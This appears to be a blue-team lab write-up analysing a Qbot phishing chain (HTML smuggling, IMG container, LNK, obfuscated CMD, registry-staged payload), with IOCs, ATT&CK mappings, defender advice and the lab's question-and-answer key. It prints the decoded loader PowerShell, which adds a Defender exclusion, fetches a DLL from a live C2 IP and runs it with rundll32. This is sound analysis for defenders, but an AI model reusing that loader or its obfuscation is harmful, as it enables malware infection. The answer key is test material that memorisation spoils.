






## Background: Qbot

Qbot (also known as Qakbot or Pinkslipbot) is one of the longest-running malware families in existence, first observed around 2007 as a banking trojan targeting credential theft and financial data. Over roughly 17 years it evolved from a simple form grabber into a sophisticated malware-as-a-service platform used by ransomware groups including Black Basta, REvil, and Conti as their initial access vector.

The delivery mechanism has continuously evolved to stay ahead of defensive controls — VBA macros through the 2010s, ISO/IMG container files when Microsoft blocked Office macros by default in 2022, then HTML smuggling when container files attracted increased scrutiny. The campaign analysed here is a textbook example of the post-macro era Qbot delivery chain: every stage uses legitimate Windows tooling, no single component is inherently malicious, and the full payload is only assembled in memory at execution.

In August 2023 the FBI and DOJ conducted Operation Duck Hunt — seizing Qbot infrastructure and pushing an uninstaller to approximately 700,000 infected machines in one of the largest botnet takedowns in history. Qbot activity was subsequently observed again in late 2023, confirming the operators rebuilt infrastructure after the disruption. These operations rarely die completely.

---

## Scenario

The SOC receives PowerShell alerts from multiple hosts. Investigation confirms a malicious HTML attachment distributed to employees as part of a Qbot campaign. The goal is to trace the full delivery chain, identify the URL hosting the Qbot DLL payload, and extract all actionable IOCs.

---

## Methodology

### Stage 1 — HTML Smuggling: Office 365 Lure

Opening `itemME.html` in Chrome renders a convincing Office 365 impersonation page:


The HTML page immediately triggers an automatic download of `simpliciter.zip` — the ZIP is Base64-encoded directly inside the HTML file and decoded by embedded JavaScript at page load. The lure page displays:

```
Document password: 764
```

The password is presented as part of the fake "file not supported" message — a social engineering mechanism to get the victim to open the password-protected archive. The combination of trusted branding, urgency messaging, and a provided password is a well-tested Qbot delivery pattern designed to minimise victim friction.

### Stage 2 — IMG Container: Mounted Payload

Extracting `simpliciter.zip` with password `764` yields `simpliciter.img`. Hashing the IMG file:

powershell

```zsh
Get-FileHash .\simpliciter.img -Algorithm SHA256
```
```
SHA256: B087012CC7A352A538312351D3C22BB1098C5B64107C8DCA18645320E58FD92F
```

Double-clicking the IMG mounts it as a DVD drive, revealing the payload structure:


```
HelicineBotocudo\       ← folder
ruggednesslapetus\      ← folder  
Socialize.lnk           ← shortcut (entry point)
```

Two top-level folders. The IMG container was adopted by Qbot specifically because it bypasses Mark of the Web (MotW) — files inside a mounted IMG do not inherit the Zone.Identifier alternate data stream that would trigger SmartScreen warnings on extracted files.

### Stage 3 — LNK Analysis: Execution Entry Point

Right-clicking `Socialize.lnk` and inspecting the target reveals the full execution chain:
```
C:\HelicineBotocudo\revolutionizes.exe /C "PedalfericUnderachieving || 
ping semidodecagonAnthropocosmic || 
ruggednessIapetus\StromateidAbelonian\Unarbitrated.cmd 
unslidingCountercoup BluisnessStigmatize"
````

`revolutionizes.exe` is the legitimate `cmd.exe` renamed. The command uses `||` (OR) operators with garbage commands (`ping semidodecagonAnthropocosmic`) that fail silently, eventually executing `Unarbitrated.cmd` with obfuscated arguments. The random naming throughout is deliberate — no string in the execution chain matches known malicious signatures.

### Stage 4 — CMD Deobfuscation: Variable Substitution

Opening `Unarbitrated.cmd` in Notepad++ reveals the obfuscation technique:



```bat
set exordizeCoryphaenoid=ipt.
set rostriferous=%systemroot%\\\system32\\\wscr%exordizeCoryphaenoid%exe

set Unmonistic=eg.
set Prefabrication=%systemroot%\\\system32\\\r%Unmonistic%exe
set intersesamoidConstitutions=%temp%\CtenostomataPsychosophy.exe
```

The obfuscation is Windows CMD variable substitution — string fragments are assigned to variables and concatenated at execution time. Tracing the substitutions:

- `wscr` + `ipt.` + `exe` → **wscript.exe**
- `r` + `eg.` + `exe` → **reg.exe**

`reg.exe` is copied to `%TEMP%` as `CtenostomataPsychosophy.exe` — a renamed legitimate Windows binary. This is the lolbin technique: using `reg.exe` under an unrecognisable name so process-name based detections miss it entirely.

The CMD then executes:

```bat
CtenostomataPsychosophy.exe import HelicineBotocudo\cymaphytePeridinium\Electrotechnics\hyperdicrotismPinnate.NhF
```

Followed by:

```bat
start MammiformOsmotherapy.exe HelicineBotocudo\cymaphytePeridinium\Electrotechnics\StanchestForeskin.wsf
```

### Stage 5 — Registry Import: Payload Storage

`hyperdicrotismPinnate.NhF` is a Windows Registry file (`.reg` format) with a non-standard extension to avoid casual identification:


Two registry keys are created under `HKCU\SOFTWARE`:

- `Stereomicroscopy` — stores a massive Base64-encoded blob under value name `Nonconfidently`
- `WorthwhilePerwick` — stores the final PowerShell DLL download command

Storing the payload in the registry rather than on disk is a fileless technique — no executable payload file exists that an AV scanner can find. The data lives entirely in the registry hive.

### Stage 6 — Base64 Decoding: PowerShell Payload

Extracting the `Nonconfidently` value and decoding in CyberChef (From Base64) reveals the full PowerShell execution chain:



The decoded output uses dotted string obfuscation — PowerShell evaluates `.I.n.v.o.k.e.-.W.e.b.R.e.q.u.e.s.t.` as `Invoke-WebRequest` natively. The full reconstructed command:

```zsh
$EugubineApertured = Get-ItemProperty -Path HKCU:\\SOFTWARE\\Stereomicroscopy | 
%{$_.Nonconfidently};
$EugubineApertured = "pentremitalStalks" + $EugubineApertured;
[Reflection.Assembly]::Load([Convert]::fromBase64String($EugubineApertured));
[classicyc1]::Execute("powershell -executionpolicy bypass -windowstyle hidden 
Add-MpPreference -ExclusionPath $currentDrive;
Start-Sleep -Seconds 10;
reg delete HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Userinit /f;
reg delete HKEY_CURRENT_USER\SOFTWARE\Stereomicroscopy /v Nonconfidently /f");
Start-Sleep -Seconds 10;
Invoke-WebRequest http://67.207.84.43/Gy0toZ0/2 -O $env:TEMP\Fishlines.dll;
rundll32 $env:TEMP\\Fishlines.dll,N1.1.5;
```

The payload sequence: add current drive to Defender exclusions → delete the registry persistence keys (self-cleanup) → download `Fishlines.dll` from C2 → execute via rundll32.

payload URL: hxxp[://]67[.]207[.]84[.]43/Gy0toZ0/2

### Stage 7 — WSF Analysis: JScript Loader

`StanchestForeskin.wsf` is executed by the renamed `wscript.exe`. Opening in Notepad++ reveals 2,850 lines of garbage text obfuscation concealing the actual script:



Buried within the junk content is the script language declaration:

```xml
<script language="jscript">
```

the WSF file uses JScript (Microsoft's JavaScript implementation) as the scripting engine, executed by wscript.exe.

---

## Attack Summary

|Phase|Action|
|---|---|
|Delivery|HTML smuggling — simpliciter.zip auto-downloaded from Office 365 lure page|
|Container|IMG file bypasses MotW — mounts as DVD drive, no SmartScreen warning|
|Execution|Socialize.lnk → revolutionizes.exe (cmd.exe) → Unarbitrated.cmd|
|Obfuscation|CMD variable substitution reconstructs wscript.exe and reg.exe at runtime|
|Registry Staging|hyperdicrotismPinnate.NhF imports Base64 payload and PS command to HKCU|
|Fileless Execution|PowerShell reads Base64 blob from registry, loads assembly in memory|
|Defense Evasion|Defender exclusion added; registry keys self-deleted after execution|
|C2 Download|Fishlines.dll downloaded from hxxp[://]67[.]207[.]84[.]43/Gy0toZ0/2|
|Execution|rundll32 executes Fishlines.dll export N115|
|WSF Loader|StanchestForeskin.wsf executed via renamed wscript.exe using JScript|

---

## IOCs

|Type|Value|
|---|---|
|File (HTML Lure)|itemME.html|
|File (ZIP)|simpliciter.zip|
|ZIP Password|764|
|File (IMG)|simpliciter.img|
|SHA256 (IMG)|B087012CC7A352A538312351D3C22BB1098C5B64107C8DCA18645320E58FD92F|
|File (LNK)|Socialize.lnk|
|File (CMD)|Unarbitrated.cmd|
|File (Registry)|hyperdicrotismPinnate.NhF|
|File (WSF)|StanchestForeskin.wsf|
|File (DLL)|Fishlines.dll|
|Registry Key 1|HKCU\SOFTWARE\Stereomicroscopy|
|Registry Value|Nonconfidently|
|Registry Key 2|HKCU\SOFTWARE\WorthwhilePerwick|
|URL (C2 Payload)|hxxp[://]67[.]207[.]84[.]43/Gy0toZ0/2|
|IP (C2)|67[.]207[.]84[.]43|
|Brand Impersonated|Office 365|

---

## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Phishing: Spearphishing Attachment|T1566.001|HTML attachment delivered via email triggering auto-download|
|Obfuscated Files or Information|T1027|CMD variable substitution; Base64 registry blob; dotted PS strings; WSF junk obfuscation|
|Command and Scripting Interpreter: Windows CMD|T1059.003|Unarbitrated.cmd executes full delivery chain via variable-obfuscated commands|
|Command and Scripting Interpreter: JavaScript|T1059.007|StanchestForeskin.wsf executed by wscript.exe using JScript engine|
|Boot or Logon Autostart: Registry Run Keys|T1547.001|WorthwhilePerwick registry key stores persistence mechanism|
|Deobfuscate/Decode Files or Information|T1140|Base64 registry blob decoded in memory; dotted PS notation evaluated at runtime|
|System Binary Proxy Execution: Rundll32|T1218.011|Fishlines.dll executed via rundll32 export N115|
|Ingress Tool Transfer|T1105|Fishlines.dll downloaded from 67.207.84.43 via Invoke-WebRequest|

---

## Defender Takeaways

**HTML smuggling bypasses email gateway attachment scanning** — the malicious ZIP is never sent as an email attachment. It exists only as a Base64 string inside an HTML file, assembled and written to disk by the browser at render time. Email gateways that scan attachments by file type or signature have nothing to scan. Detection requires either sandboxing HTML attachments and observing the download behaviour, or blocking HTML attachments from external senders entirely — a policy many organisations have adopted specifically because of Qbot.

**IMG/ISO containers bypass Mark of the Web** — files extracted from a mounted IMG file do not inherit the Zone.Identifier ADS that Windows uses to track files downloaded from the internet. This means SmartScreen and other MotW-dependent controls don't fire. Windows 11 22H2 extended MotW propagation to files inside ISO/IMG containers — ensuring endpoints are patched to this version or later closes this bypass.

**CMD variable substitution defeats string-based detection** — no string in `Unarbitrated.cmd` reads `wscript.exe`, `reg.exe`, or `powershell`. Static signature rules matching on these strings would not fire. Behaviour-based detection — cmd.exe spawning wscript.exe which spawns a process importing registry keys — is the reliable detection approach regardless of what the binaries are named.

**Registry as fileless payload storage** — storing the Base64 PowerShell payload in the registry means no file touches disk that AV can scan. The payload only exists in memory during execution. Sysmon Event ID 13 (registry value set) alerting on writes to non-standard HKCU\SOFTWARE keys, particularly large Base64-formatted values, provides detection coverage for this staging technique.

**Self-deletion of IOCs** — the PowerShell command explicitly deletes both registry keys after execution. By the time the DLL is running there is no registry artefact to find. Incident responders arriving after execution would find no persistence mechanism. Capturing the registry state at alert time — before allowing further execution — is critical for preserving evidence in Qbot investigations.


---

<div class="qa-item"> <div class="qa-question-text">Question 1) What platform/service is this phishing attack impersonating? (Format: Service Name)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">office360</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 2) What is the name of the password protected ZIP file embedded in the HTML file? (Format: filename.zip)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">simpliciter.zip</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 3) What is the SHA256 hash of the file inside the ZIP? (Format: SHA256)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">B087012CC7A352A538312351D3C22BB1098C5B64107C8DCA18645320E58FD92F</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 4) After opening the file, how many top-level folders are there? (Format: Number of Folders)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">2</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 5) Investigate the .LNK file. What file is being executed? (Format: filename.ext)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">revolutionizes.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 6) A CMD file is referenced in the shortcut command-line. Investigate this file. What is the original filename of CtenostomataPsychosophy.exe? (Format: filename.ext)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">reg.exe</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 7) What is the registry key name that stores the final PowerShell command to download the DLL? (Format: KeyName)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">WorthwhilePerwick</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 8) What is the name of the file within the img file that contains all the registry data? (Format: filename.ext)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">hyperdicrotismPinnate.NhF</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 9) What is the payload URL for Fishlines.dll? (Format: http://something/something/…)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">http://67.207.84.43/Gy0toZ0/2</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Question 10) What is the scripting language used by the .wsf file that was executed by wscript.exe? (Format: Script Language)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">jscript</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

